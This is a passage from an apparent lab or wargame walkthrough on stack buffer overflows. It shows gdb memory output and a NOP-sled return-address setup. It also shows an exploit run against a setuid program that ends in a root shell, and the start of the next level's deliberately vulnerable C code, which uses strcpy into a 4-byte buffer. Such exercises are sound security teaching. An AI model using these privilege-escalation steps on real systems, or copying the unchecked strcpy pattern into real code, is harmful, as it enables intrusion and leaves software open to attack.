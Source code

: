 x/<span class="hljs-number">4</span>x $ebp
<span class="hljs-number">0xffffda5c</span>: <span class="hljs-number">0x6a6a4141</span>      <span class="hljs-number">0xffffd988</span>      <span class="hljs-number">0x0000000f</span>      <span class="hljs-number">0x00000000</span></code></pre>

<p><code>0xffffd988</code> will be the address that falls in your <code>NOP</code> sleds.  <br>
Now everything is set up: it is divisible by 256, it redirect the return to our shell code which will enter the shell with <code>euid=0</code> and <code>uid=0</code>, which is root access. Let’s see if that is actually the case.</p>



<pre class="prettyprint"><code class=" hljs ruby">user<span class="hljs-variable">@host</span><span class="hljs-symbol">:/c0re</span><span class="hljs-variable">$ </span>(cat farmville.sol ; cat) | <span class="hljs-regexp">/c0re/attackme</span>3 <span class="hljs-string">"$( &lt; zerg.sol)"</span>
[<span class="hljs-constant">ZERG</span>] <span class="hljs-constant">Buffer</span> received <span class="hljs-number">20</span> characters!
[<span class="hljs-constant">FARMVILLE</span>] <span class="hljs-constant">Spammed</span> the walls of <span class="hljs-number">236</span> <span class="hljs-constant">Facebook</span> friends!
<span class="hljs-comment"># whoami</span>
 root
<span class="hljs-comment"># id</span>
uid=<span class="hljs-number">0</span>(root) gid=<span class="hljs-number">1030</span>(user) groups=<span class="hljs-number">1030</span>(user)</code></pre>

<p>Great! We compromise the program and gain root access in shell! </p>



<h2 id="overflow4"><span>overflow4</span></h2>

<p>This time we are limited with the length of input, the source code looks like this:</p>



<pre class="prettyprint"><code class="language-C hljs cpp"><span class="hljs-comment">/* Betrayal */</span>

<span class="hljs-preprocessor">#include &lt;stdio.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;stdlib.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;unistd.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;string.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;ctype.h&gt;</span>


<span class="hljs-keyword">void</span> brutus(<span class="hljs-keyword">char</span> *caesar)
{
        <span class="hljs-keyword">char</span> buf[<span class="hljs-number">4</span>];

        <span class="hljs-keyword">if</span> (<span class="hljs-built_in">strlen</span>(caesar) &gt; <span class="hljs-number">20</span>)
        {
                <span class="hljs-built_in">printf</span> (<span class="hljs-string">"Et tu, Brute?\n"</span>);
                <span class="hljs-keyword">return</span>;
        }

        <span class="hljs-built_in">strcpy</span> (buf, caesar);

        <span class="hljs-built_in">printf</span> (<span class="hljs-string">"Alea iacta est: %d\n"</span>, (<span class="hljs-keyword">int</span>)<span class="hljs-built_in">strlen</span>(buf));
